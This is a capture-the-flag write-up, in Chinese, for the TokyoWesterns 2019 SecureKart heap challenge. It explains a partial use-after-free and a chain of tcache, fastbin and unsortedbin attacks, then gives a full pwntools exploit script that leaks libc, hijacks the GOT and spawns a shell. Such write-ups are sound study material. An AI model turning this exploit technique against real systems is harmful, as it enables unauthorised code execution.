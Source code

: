 ```yaml
---
title: 'TokyoWesterns_2019:SecureKart'
date: 2019-09-03 12:06:50
tags: heap 
---
```

SecureKart
<!--more-->
# prelogue
Thank @peanuts for the main part.
# analysis
```s
[*] '/home/n132/Desktop/SecureKart/karte'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
# vulnerablity
没有开PIE和全RELRO
漏洞点
* 半个UAF
* modify时没有检测inuse

利用限制:
1. 只有三个chunk ptr
2. UAF只有modify的时候能用一次 free时检测inuse
3. add中 size>0x800的时候用calloc 其他时候用malloc

比赛的时候全靠@peanuts师傅完成了改掉了lock的操作我当时照着流程复现了一遍
后面的内容其实相比前面的巧妙来说只是皮毛.
[attachmen][1]
# solution
本节是我赛后删掉exp复现时的思路
第一个遇到的问题因为`tcache size`范围中用的是`calloc`是不能直接做`tache hijacking`的
所以要弄到`fastbin`上搞方法也很简单
```python
for x in range(7):
    free(add(0x68))
```
这样就会填满tacache

之后利用`uaf`+`modify`来完成`fastbin_atk`

然后就要想要控制哪里.
本题没有开全RELRO和PIE所以首选bss段上那些重要的数据(全局变量 got表)

因为我们唯一的一次攻击机会被我们使用了要么一次成功（连地址都没有泄漏 还有fastbin-atk还是有head限制的所以不太可能)要么扩大利用.

如果是要泄漏的话在没有开`full RELRO`和`PIE`的情况下显然劫持某些`got`为`puts`比`io_leak`简单.

因为前者在本题环境下需要做`unsortedbin-atk`后者因为只有三个chunk_ptr且没办法利用name区域的edit来控制stdout,换言之就是他们都需要`unsortedbin-atk`但是前者在做了`unsortedbin-atk`之后更加方便.

所以咱的之后大致思路就有了:`unsortedbin-atk`创造一个`0x7f`的`chunk-head`在`bss`上之后控制bss上一些关键值:
* lock的值（可以扩大利用导致无限modify） 
* list的指针（配合低一点 可以任意地址写）

如果达到上述两项那么就可以为所欲为了.

于是我们细化一下流程:
首先是fastbin-atk是有head的需求所以直接来是比较难找到的
我们可以控制`name`区域次数不限 所以其上可以伪造`chunk`（一个限制是控制区域只有0x30）

我们最后要做0x71的`fastbin-atk`就需要至少`0x70+1`字节的可控制区域所以我们要控制name区域后的内容
因为0x80依然是fastbin内的所以我们可以第一次做`fastbin-atk`时使用0x80的大小先在后面的放点以后我们需要的东西.


那么我们继续要做的事情是创造一个可以控制的`unsortedbin`那这显然就是`name`区域了

之后因为name可以任意edit我们更改`fake-chunk`的`head`free到其他的`fastbin`中
利用`malloc_consolidate`使其进入`unsortedbin`（具体详见大哥的博客:[chltql][0]）

这样之后的事情就很常规了控制lock+指针任意地址写 造成`leak + got_hijacking`

# exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("> ",str(c))
def add(size,c="A"):
	cmd(1)
	cmd(size)
	p.sendafter("> ",c)
	p.readuntil("id ")
	return int(p.readline(),10)
def free(idx):
	cmd(3)
	cmd(idx)
def edit(idx,c):
	cmd(4)
	cmd(idx)
	p.sendafter("> ",c)
def do_name(name):
	p.sendafter(".. ",name)
def rename(name):
	cmd(99)
	do_name(name)
	
context.log_level='debug'
context.arch='amd64'
address=0x0000000006021A0
p=process('./karte')
#p=remote("karte.chal.ctf.westerns.tokyo",10001)
do_name("It's n132!")
for x in range(7):
	tmp=add(0x18)#0
	free(tmp)
for x in range(7):
	tmp=add(0x68)#0
	free(tmp)
for x in range(7):
	tmp=add(0x78)#0
	free(tmp)
t1=add(0x78)
t2=add(0x78)
free(t2)
free(t1)
edit(t1,p64(address)[:3])
rename(flat(0,0x81))
t1=add(0x78)
t2=add(0x78,p64(0x21)*13+p64(0x21))
rename(p64(0x21)*2)
t3=add(0x410)
free(t2)
free(t3)
rename(flat(0,0x21,0,0x602118-5-0x10))
free(t1)
t1=add(0x18)
rename(flat(0,0x71))
free(t1)
rename(flat(0,0x71,0x602110))
add(0x68)
pay=p64(0x0000000400000041)+'\x00'*0x18
pay+=p64(0x13200000001)+p64(0x000000000602018)
pay+=p64(0)*2+p64(0x13300000001)+p64(0x000000000602078)
pay+=p64(0x0000deadc0bebeef)
add(0x68,pay)
edit(0x132,p64(0x000000000400710)[:6])
free(0x133)
base=u64(p.readline()[:-1].ljust(0x8,'\x00'))-(0x7ffff7a24680-0x7ffff79e4000)
log.warning(hex(base))
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
edit(0x133,p64(libc.sym['system']+base)[:6])
cmd("/bin/sh")
p.interactive()
```

# epilogue

1. 质量挺高的一题
2. 挺考验利用的,一步步抽丝剥茧.





[0]: https://ch4r1l3.github.io/2019/01/22/malloc-consolidate%E8%B0%83%E7%94%A8%E6%9D%A1%E4%BB%B6/
[1]: https://github.com/n132/WriteUps/tree/master/2019_TokyoWesterns/SecureKart
